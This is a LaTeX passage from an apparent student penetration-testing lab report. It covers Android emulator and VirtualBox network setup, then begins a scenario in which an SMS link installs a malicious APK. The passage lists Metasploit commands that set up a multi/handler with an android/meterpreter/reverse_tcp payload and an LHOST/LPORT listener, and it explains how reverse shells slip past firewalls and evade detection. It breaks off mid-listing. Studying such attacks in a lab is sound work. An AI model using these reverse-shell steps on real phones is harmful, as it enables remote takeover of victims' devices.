%     
\includegraphics[scale=0.3]{pics/as9.PNG}
% \end{figure}
% \end{multicols}
% Click \textbf{Next} on both of the above screens
% \begin{figure}[H]
%     \centering
%     
\includegraphics[scale=0.3]{pics/as10.PNG}
%     \caption{Final Screen}
% \end{figure}
% Click on \textbf{Finish}. Thereafter you will see that the Components will begin downloading as seen in the figure below.
% \begin{multicols}{2}
% \begin{figure}[H]
%     \centering
%     
\includegraphics[scale=0.3]{pics/as11.PNG}
% \end{figure}
% \begin{figure}[H]
%     \centering
%     
\includegraphics[scale=0.3]{pics/as12.PNG}
% \end{figure}
% \end{multicols}
% Click on \textbf{Finish} after everything is completed. Thereafter you will see the \texttt{Welcome to Android Studio} screen.
% \begin{multicols}{2}
% \begin{figure}[H]
%     \centering
%     
\includegraphics[scale=0.3]{pics/as13.PNG}
% \end{figure}
% \begin{figure}[H]
%     \centering
%     
\includegraphics[scale=0.3]{pics/as14.PNG}
% \end{figure}
% \end{multicols}
% Click on \textbf{More actions} and then select the \textbf{AVD Manager} option. You will be lead to the \texttt{Android Virtual Device Manager} screen. Click on the \textbf{+ Create Virtual Device...} option.
% \begin{multicols}{2}
% \begin{figure}[H]
%     \centering
%     
\includegraphics[scale=0.3]{pics/as15.PNG}
% \end{figure}
% \begin{figure}[H]
%     \centering
%     
\includegraphics[scale=0.3]{pics/as16.PNG}
% \end{figure}
% \end{multicols}
% You will have to \textbf{Select Hardware}, and thereafter the \textbf{System Image}. For the purposes of this project the following specifications were utilised:
% \begin{itemize}
%     \item \textit{Hardware}: Pixel 3a
%     \item \textit{System Image}:
%     \begin{itemize}
%         \item \textit{Release name}: R
%         \item \textit{API Level}: 30
%         \item \textit{Target}: Android 11.0
%     \end{itemize}
% \end{itemize}
% You will have to download the System Image if it is not installed.
% \begin{figure}[H]
%     \centering
%     
\includegraphics[scale=0.3]{pics/as17.PNG}
%     \caption{License Agreement screen}
% \end{figure}
% Make sure to agree to the License Agreement before downloading the System Image and then click \textbf{Next}.
% \pagebreak
% \begin{multicols}{2}
% \begin{figure}[H]
%     \centering
%     
\includegraphics[scale=0.2]{pics/as18.PNG}
% \end{figure}
% \begin{figure}[H]
%     \centering
%     
\includegraphics[scale=0.2]{pics/as19.PNG}
% \end{figure}
% \end{multicols}
% Click on \textbf{Finish} after the install is done.
% \begin{multicols}{2}
% \begin{figure}[H]
%     \centering
%     
\includegraphics[scale=0.2]{pics/as20.PNG}
% \end{figure}
% \begin{figure}[H]
%     \centering
%     
\includegraphics[scale=0.2]{pics/as21.PNG}
% \end{figure}
% \end{multicols}
% You should be able to select the newly installed System Image and click on \textbf{Next}. Thereafter under the \textbf{Emulated Performance -$>$ Graphics} settings. Choose the \textbf{Software - GLES 2.0} option if you do not have a GPU on your host machine. If a GPU is present you can select the \textbf{Hardware - GLES 2.0} option. Thereafter click on \textbf{Finish}.
% Click on \textbf{Finish} after the download is completed.

% You should see the following in your \textbf{AVD Manager} now as shown below.
% \begin{figure}[H]
%     \centering
%     \includegraphics[scale=0.4]{pics/as22.PNG}
%     \caption{Android Emulator listed under the AVD Manager}
% \end{figure}
% Click on the green arrow to start up the newly created Android Emulator.
% \begin{figure}[H]
%     \centering
%     \includegraphics[scale=1]{pics/as23.PNG}
%     \caption{The Android Emulator running}
% \end{figure}
\section{Network setup in VirtualBox}
Networking is a key aspect of what makes or breaks the exploits covered in further chapters. Therefore the following steps have to be taken so that an internal virtual network can created which will allow the virtual machines to communicate with each other effectively and without worrying about gateways and other network related issues that can pop up.\\\\
Navigate to Oracle VirtualBox and click on \textbf{File -$>$ Preferences}. This is shown below.
\begin{figure}[H]
    \centering
    \includegraphics[scale=0.8]{pics/net1.png}
\end{figure}
Navigate to the \texttt{Network} tab on the left hand side. Thereafter, click on the green plus icon the right to create a new \textbf{NatNetwork}. This is shown below.
\begin{figure}[H]
    \centering
    \includegraphics[scale=1]{pics/net2.png}
\end{figure}
Click \textbf{OK} to save the settings. Now go to the settings for each of your virtual machines and under the \texttt{Network} tab select the newly created Nat Network as your Adapter. This is demonstrated below.
\begin{figure}[H]
    \centering
    \includegraphics[scale=1]{pics/net3.png}
\end{figure}
\section{Blog}
The blog we created was hosted on GitHub Pages. The link to the blog is:\\
\url{https://ITRI625.github.io}\\\\
More information on GitHub Pages can be found at: \url{https://pages.github.com/}\\\\
The template for the blog was acquired from:\\
\url{https://startbootstrap.com/theme/clean-blog}\\\\
GIFs on the Blog were sourced from \url{https://tenor.com/}\\\\
Additionally, the screenshots taken were from VMs we implemented in VirtualBox and other images for the headers were sourced from Google Images.
\chapter{Scenario 1: Android exploit}
\label{sec:sec1}
\section{Overview}
The scenario is described as follows:
\begin{displayquote}
\textit{A person (that will be known as the victim in further discussions), opens a SMS received on their mobile device. This SMS has a malicious link embedded in it, or has a link that redirects to a malicious site. The link automatically downloads and runs an Android application package also known in other terms as an APK file. This APK file is what the Android Operating System uses to install applications. This malicious Application, once installed gives the Hacker (known as a perpetrator in an attack) full control over the device to outside parties, including the perpetrator. From here on out, the perpetrator has the victim in the palm of their hands, and can do what every they like to the device as well as carry out further attacks against the victim.}
\end{displayquote}
\section{Carrying out the exploit}
Here are the steps taken to exploit the Android virtual machine.\\\\
Firstly, we should see if the Android VM is listed on our current NAT Network. For this run the following command shown below:
\begin{minted}
[
frame=lines,
framesep=2mm,
baselinestretch=1.2,
bgcolor=LightBlue,
fontsize=\footnotesize,
breaklines,
]
{Shell}
nmap -sS
\end{minted}
\texttt{nmap} is a Security Scanner that allows us to scan networks with different options. The flags denoted by \texttt{-sS} are the most common and initiate a stealthier scan of the network.\cite{nmap}

Thereafter 
Open up the Metasploit console in Kali Linux by running the following command below:
\begin{minted}
[
frame=lines,
framesep=2mm,
baselinestretch=1.2,
bgcolor=LightBlue,
fontsize=\footnotesize,
breaklines,
breaksymbolleft=\carriagereturn
]
{Shell}
msfconsole
\end{minted}
Thereafter run the following:
\begin{minted}
[
frame=lines,
framesep=2mm,
baselinestretch=1.2,
bgcolor=LightBlue,
fontsize=\footnotesize,
breaklines,
breaksymbolleft=\carriagereturn
]
{Shell}
use exploit/multi/handler
\end{minted}
The Multi Handler command launches a stub that runs outside the Framework. This command launches a payload that is specific to our specification.\cite{os1}
\begin{minted}
[
frame=lines,
framesep=2mm,
baselinestretch=1.2,
bgcolor=LightBlue,
fontsize=\footnotesize,
breaklines,
breaksymbolleft=\carriagereturn
]
{Shell}
search android/meterpreter
\end{minted}
Meterpreter is a tool that is part of the Metasploit Framework which allows you to take advantage of as well as find vulnerabilities in a system. This penetration testing tool can easily take hold of victim's resources as needed. Meterpreter utilises an in-memory injection which writes nothing to disk. This allows for the exploit to run without being detected by normal means. A new process is not created, rather it injects itself into a compromised process. For this reason also the forensic footprint left behind by the Meterpreter is limited.\cite{hypr, sdo}
\begin{minted}
[
frame=lines,
framesep=2mm,
baselinestretch=1.2,
bgcolor=LightBlue,
fontsize=\footnotesize,
breaklines,
breaksymbolleft=\carriagereturn
]
{Shell}
set payload android/meterpreter/reverse_tcp
\end{minted}
When the host initiates a connection, that is called a \textit{forward connection}. However, when the opposite is done, a server initiates the connection to a host, then it is called a reverse connection.
Firewalls work on the basic principle of blocking all incoming connection. So all incoming connections (reverse connections) are blocked by the firewall. However, if a host initiates a connection (forward connection) it is allowed and the return for the connection initiated by the host will be permitted.
Reverse\_tcp is basically instead of the attacker initiating the connection which will obviously blocked by the firewall instead, the device initiates the connection to the attacker, which will be allowed by the firewall and the attacker then take control of the device and pass commands. It is a type of reverse shell.\cite{zain}
\begin{minted}
[
frame=lines,
framesep=2mm,
baselinestretch=1.2,
bgcolor=LightBlue,
fontsize=\footnotesize,
breaklines,
breaksymbolleft=\carriagereturn
]
{Shell}
show options
\end{minted}
The above command shows the current options for the payload. These can then be changed as shown below.
\begin{minted}
[
frame=lines,
framesep=2mm,
baselinestretch=1.2,
bgcolor=LightBlue,
fontsize=\footnotesize,
breaklines,
breaksymbolleft=\carriagereturn
]
{Shell}
set LHOST <ip_address>
\end{minted}
The above command sets the IP address that will become a \textit{Listener}, in other words which IP address all the communication from the victim will be forwarded to.
\begin{minted}
[
frame=lines,
framesep=2mm,
baselinestretch=1.2,
bgcolor=LightBlue,
fontsize=\footnotesize,
breaklines,
breaksymbolleft=\carriagereturn
]
{Shell}
set LPORT <port_number>
\end{minted}
The above command changes the option of which port the \textit{Listener} should receive information. This is usually an open port that is not being used by any other process or service.
\begin{minted}
[
frame=lines,
framesep=2mm,
baselinestretch=1.2,
bgcolor=LightBlue,
fontsize=\footnotesize,
breaklines,
breaksymbolleft=\carriagereturn
]
{Shell}
